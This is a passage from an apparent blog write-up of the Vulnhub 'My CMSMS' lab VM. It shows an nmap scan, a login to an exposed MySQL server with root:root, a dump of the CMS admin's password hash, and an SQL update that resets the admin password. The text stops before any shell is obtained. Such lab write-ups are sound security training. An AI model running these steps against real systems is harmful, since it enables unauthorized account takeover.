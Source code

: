 ```yaml
---
title: Vulnhub - My CMSMS
description: My writeup on My CMSMS box.
categories:
 - vulnhub
tags: vulnhub 
---
```


![](https://pixelita.com/wp-content/uploads/2016/04/cmsms-logo-720.png)

Hi all, that was an awesome VM, easy but interesting.

You can find the machine there > [My CMSMS](https://www.vulnhub.com/entry/my-cmsms-1,498/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-30 00:15 EEST
Nmap scan report for mycmsms.zte.com.cn (192.168.1.9)
Host is up (0.00038s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Home - My CMS
3306/tcp  open  mysql
```

Mysql allows remote connections, that's great! So mysql default credentials are `root:<no_password>` let's try that : 

```
$ mysql -u root -h $ip -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'xxxxx' (using password: NO)
```

Damn, then i had another idea to test for `root:root` : 

```
$ mysql -u root -h $ip -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 101
Server version: 8.0.19 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

That worked! Now on port 80 runs `CMS Made Simple` with mysql we can change admin's password! I found a great [guide](https://cmscanbesimple.org/blog/cms-made-simple-admin-password-recovery){:target="_blank"}

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cmsms_db           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.007 sec)

MySQL [(none)]> use cmsms_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [cmsms_db]> show tables;
+--------------------------------+
| Tables_in_cmsms_db             |
+--------------------------------+
| ..junk tables..                |
| cms_userprefs                  |
| cms_users                      |
| cms_users_seq                  |
| cms_version                    |
+--------------------------------+
53 rows in set (0.004 sec)

MySQL [cmsms_db]> select * from cms_users;
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
| user_id | username | password                         | admin_access | first_name | last_name | email             | active | create_date         | modified_date       |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
|       1 | admin    | fb67c6d24e756229aab021cea7605fb3 |            1 |            |           | admin@mycms.local |      1 | 2020-03-25 09:38:46 | 2020-03-26 10:49:17 |
+---------+----------+----------------------------------+--------------+------------+-----------+-------------------+--------+---------------------+---------------------+
1 row in set (0.001 sec)

MySQL [cmsms_db]> 
```

Let's change his password now :

```
MySQL [cmsms_db]> update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'pwned'))) where username = 'admin'
    -> ;
Query OK, 1 row affected (0.005 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Now we can login in, admin panel is under `/admin` -> `admin:pwned`

![](https://i.imgur.com/a6vuevX.png)

Now i stucked for lot of minutes, i was like how the fuck can i take a reverse shell. Isn't wordpress/joomla or something similar after lot of enumeration and tries i found a way :D
